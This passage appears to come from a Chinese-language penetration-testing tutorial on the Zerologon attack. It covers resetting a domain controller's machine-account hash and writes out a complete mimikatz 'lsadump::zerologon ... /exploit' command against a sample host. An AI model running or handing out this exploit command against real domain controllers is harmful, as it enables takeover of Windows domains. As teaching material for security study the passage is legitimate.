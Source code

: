 ![截图](728bf5d5156ada56ece2b5563ad040d9.png)

#### （2）重置域控哈希

这里重置域控哈希分为两种情况。

• 一种情况是当前执行 mimikatz 的机器在域内。

• 一种情况是当前执行 mimikatz 的机器不在域内。

##### 1）攻击机在域中

如果当前主机在域环境中的话，可以使用如下命令重置域控 AD01 的机器账号哈希，target 参数这里可以直接使用 FQDN，也就是 AD01.xie.com。

```
mimikatz.exe "lsadump::zerologon /target:AD01.xie.com /ntlm /null /account:AD01$ /exploit" "exit"
```

如图所示，使用 mimikatz 重置域控 AD01 的机器账号哈希为 0 成功

![截图](7a11322a1db51d6edb9ed7b089058d4c.png)
